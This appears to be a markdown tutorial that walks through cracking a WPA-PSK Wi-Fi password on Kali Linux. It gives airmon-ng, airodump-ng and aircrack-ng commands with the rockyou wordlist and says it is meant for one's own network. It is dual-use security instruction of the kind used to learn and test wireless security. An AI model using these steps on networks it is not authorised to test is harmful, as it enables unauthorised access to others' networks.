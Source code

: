 Boot / Install Kali

If on virtualbox, you will need a USB wifi stick. Once added, click the usb icon in the bottom right and add the device to your guest OS
![](http://teachthe.net/topclipbox/2016-05-03_22-29-253QLRLY.png)

```shell
airmon-ng
```

You should see something like this
![](http://teachthe.net/topclipbox/2016-05-03_22-31-4102HNZ4.png)

From the above, get your Interface name and use it below in place of 'wlan0'

```
airmon-ng start wlan0
```

This should tell us monitor mode is enabled for this interface.

```
airodump-ng wlan0
```

This will show us all wifi points detected by the card, along with their encryption type. It should look like this:

![](http://teachthe.net/topclipbox/2016-05-03_23-47-24LP16AR.png)

Once you see your network, hit control+c to kill it.

(Note, this guide only shows how to break into your own WPA-PSK protected network)

```
airodump-ng -c 1 --bssid E8:DE:27:BD:CA:3C -w ~/wpa-psk wlan0
```

For this command, we need to make a few modifications:

1) "-c 1" is specifying to use channel 1. Replace the "1" with the number from the CH column above for your network.

2) "--bssid 04:1E:64:98:96:AB" is specifying the unique ID of the actual wifi network you are targeting. Replace the "04:1E:64:98:96:AB" with the value from the BSSID column above for your network.

3) As always, replace wlan0 with your Interface name.

While leaving it running, open another terminal.

In the new terminal:

Unzip this password list if you haven't before:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Then we're going to work with this command to crack the password
```
aircrack-ng ~/wpa-psk-01.cap -w /usr/share/wordlists/rockyou.txt
```
For this command, we need to make a modification: "~/wpa-psk-01.cap" is referring to the file storing the results of the dump from the previous command. In the previous command, we passed in a parameter "-w ~/wpa-psk" saying write the logs to our home directory. Go to your home directory, and find the .cap file located there, and replace the "wpa-psk-01.cap" in this command with the name of that file.

If you get a "failed" message. Just hit control+c and wait for more data to be collected, then try again.

When you achieve success, you should see something like this!

![](http://teachthe.net/topclipbox/2016-05-03_23-58-481DRT8X.png)
